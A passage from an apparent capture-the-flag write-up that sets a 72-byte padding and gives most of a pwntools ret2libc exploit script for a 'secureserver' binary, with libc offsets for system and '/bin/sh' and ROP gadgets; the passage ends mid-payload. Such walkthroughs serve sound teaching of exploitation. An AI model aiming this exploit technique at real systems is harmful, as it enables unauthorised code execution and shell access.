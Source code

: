 This means that <mark style="color:yellow;">our padding will be 72</mark>.

### Exploit Development (pwntools)

Be sure to add the addresses, offsets, and padding we gathered above to your exploit code:

<figure><img src="../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

`exploit.py`:

{% code lineNumbers="true" %}
```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc_base = 0x7ffff7d8b000
system = libc_base + 0x50d60
binsh = libc_base + 0x1d8698

# POP RDI gadget (found with ropper)
ret = 0x401016
pop_rdi = 0x40120b

# How many bytes to the instruction pointer (RIP)?
padding = 72

payload = flat(
```